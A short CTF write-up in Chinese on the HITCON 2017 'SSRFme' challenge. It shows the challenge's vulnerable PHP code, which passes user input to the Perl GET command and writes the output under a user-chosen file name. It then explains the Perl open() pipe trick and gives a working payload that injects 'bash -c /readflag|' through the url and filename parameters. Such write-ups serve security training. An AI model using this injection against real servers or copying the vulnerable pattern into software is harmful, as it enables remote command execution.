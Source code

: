 # [HITCON 2017]

## 0x01 SSRFme

首页给了代码

```php
<?php
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];

    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data);
    highlight_file(__FILE__);
```

大致就是调用GET命令读URL并保存文件，然而escapeshellarg并不知道怎么逃逸

这个GET命令没见过

查了一下发现是perl写的

有个经典漏洞

> php中shell_exec执行GET命令，而GET命令是通过perl执行的
> perl在open当中可以执行命令，如:
> open(FD, “ls|”)或open(FD, “|ls”)
> 前提是文件需要存在

```
root@kali:~/test# GET 'file:id|'
uid=0(root) gid=0(root) groups=0(root)
```

但是好像因为版本更新了？本地没复现

然后就有了payload

```
/?url=file:bash -c /readflag|&filename=bash -c /readflag|
```

访问两次再访问对应生成的文件就能拿到flag.